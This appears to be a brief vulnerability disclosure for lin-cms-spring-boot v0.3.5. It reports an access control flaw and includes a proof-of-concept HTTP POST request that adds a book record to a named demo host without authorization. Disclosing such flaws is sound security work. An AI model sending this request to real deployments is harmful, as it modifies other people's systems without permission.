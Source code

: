target:https://github.com/TaleLin/lin-cms-spring-boot     version:v0.3.5

lin-cms-spring-boot v0.3.5 has an incorrect access control vulnerability, allowing attackers to add book information to the system without authorization.
![](https://github.com/tang-0717/cms/blob/main/images/4.png)

Poc:
```
POST /v1/book HTTP/1.1
Host: face.api.talelin.com
Content-Length: 61
Accept: application/json, text/plain, */*
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"title":"test","author":"zia","summary":"111","image":"111"}
```
![](https://github.com/tang-0717/cms/blob/main/images/5.png)
Successed
![](https://github.com/tang-0717/cms/blob/main/images/6.png)
